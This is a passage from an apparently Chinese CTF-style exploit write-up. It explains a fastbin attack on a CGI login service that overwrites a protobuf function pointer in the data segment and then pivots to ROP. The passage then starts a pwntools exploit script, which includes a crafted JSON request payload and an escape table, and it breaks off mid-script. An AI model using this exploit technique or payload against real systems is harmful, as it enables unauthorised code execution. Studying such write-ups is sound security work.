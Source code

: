 [![](assets/1706958480-c1dcd9378056d4658ea815805afdd80a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

通过以上方式可以构造一个`fastbin attack`。之后可以通过`fastbin attack`去修改 data 段的函数指针，跳转到 ROP 最终完成利用（PS：这里很有趣的一点是，如果没有 protobuf 存储在 data 段上的函数指针，在开启 Full RELRO 的情况下也无法完成利用）

完整的利用脚本如下：

```bash
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",

    b";": b"\\u003b",
```